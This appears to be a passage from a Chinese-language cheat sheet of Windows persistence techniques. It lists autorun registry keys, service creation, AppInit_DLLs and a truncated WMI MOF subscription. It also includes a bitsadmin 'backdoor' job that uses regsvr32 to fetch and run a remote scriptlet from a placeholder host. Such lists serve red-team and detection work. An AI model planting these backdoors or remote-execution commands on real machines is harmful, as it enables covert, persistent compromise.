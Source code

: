 用户级 
```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
```
管理员 
```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
```
##### 4、BootExecute Key 
由于smss.exe在Windows子系统加载之前启动，因此会调用配置子系统来加载当前的配置单元，具体注册表键值为：
```
HKLM\SYSTEM\CurrentControlSet\Control\hivelist
HKEY_LOCAL_MACHINE\SYSTEM\ControlSet002\Control\Session Manager
```
##### 5、Userinit Key 
WinLogon进程加载的login scripts,具体键值：
```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```
##### 6、Startup Keys 
```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
```
##### 7、Services 
创建服务 
```
sc create [ServerName] binPath= BinaryPathName
```
##### 8、Browser Helper Objects 
本质上是Internet Explorer启动时加载的DLL模块
```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Browser Helper Objects
```
##### 9、AppInit_DLLs 
加载User32.dll会加载的DLL
```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows\AppInit_DLLs
```
##### 10、文件关联 
```
HKEY_LOCAL_MACHINE\Software\Classes
HKEY_CLASSES_ROOT
```
##### 11、[bitsadmin](http://www.liuhaihua.cn/archives/357579.html) 
```
bitsadmin /create backdoor
bitsadmin /addfile backdoor %comspec% %temp%\cmd.exe
bitsadmin.exe /SetNotifyCmdLine backdoor regsvr32.exe "/u /s /i:https://host.com/calc.sct scrobj.dll"
bitsadmin /Resume backdoor
```
##### 12、[mof ](https://evi1cg.me/archives/Powershell_MOF_Backdoor.html)
```
pragma namespace("\\\\.\\root\\subscription") 
instance of __EventFilter as $EventFilter
{
EventNamespace = "Root\\Cimv2";
```
